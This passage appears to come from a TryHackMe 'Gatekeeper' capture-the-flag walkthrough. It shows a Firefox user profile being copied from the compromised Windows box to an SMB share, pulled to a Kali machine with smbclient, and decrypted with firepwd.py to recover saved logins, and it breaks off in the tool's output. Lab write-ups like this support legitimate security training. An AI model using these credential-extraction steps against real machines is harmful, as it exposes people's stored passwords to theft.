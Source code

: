 :::tip

Reference: _["Use nc for file transfers"](https://nakkaya.com/2009/04/15/using-netcat-for-file-transfers/)_

:::

I used a tool called [firefox_decrypt](https://github.com/unode/firefox_decrypt) to try and decrypt the firefox user accounts/logins, but got a bit tricky.

Instead, the following method worked flawlessly.

### Firepwd.py

Start by copying the entire firefox user profile from the THM box to your local machine, by copying it on the THM to the open "Share"

```bash
copy C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release` to `C:\Users\Share\profile
```

Next, from my kali machine, use `smb //$gatekeeper-ip/Users` to log in (make sure to be in the dir you want the files downloaded to), then used these settings to download the files to your local machine:

```bash
smbclient '\\server\share'
mask ""
recurse ON
prompt OFF
cd 'path\to\remote\dir'
mget *
```

Now on my local I have the THM box firefox profile files.

#### Decrypt firefox logins

I used this `git clone https://github.com/lclevy/firepwd.git` to decrypt the firefox profile (note: `Share/` is where I downloaded files from the THM box):

```bash
python3 firepwd.py -d Share/                                                                                    
globalSalt: b'2d45b7ac4e42209a23235ecf825c018e0382291d'                                                             
 SEQUENCE {                                                                                                         
   SEQUENCE {                                                                                                       
     OBJECTIDENTIFIER 1.2.840.113549.1.5.13 pkcs5 pbes2                                                             
     SEQUENCE {                                                                                                     
       SEQUENCE {                                                                                                   
         OBJECTIDENTIFIER 1.2.840.113549.1.5.12 pkcs5 PBKDF2                                                        
         SEQUENCE {                                                                                                 
           OCTETSTRING b'9e0554a19d22a773d0c5497efe7a80641fa25e2e73b2ddf3fbbca61d801c116d'                          
           INTEGER b'01'                                                                                            
           INTEGER b'20'                                                                                            
           SEQUENCE {                                                                                               
```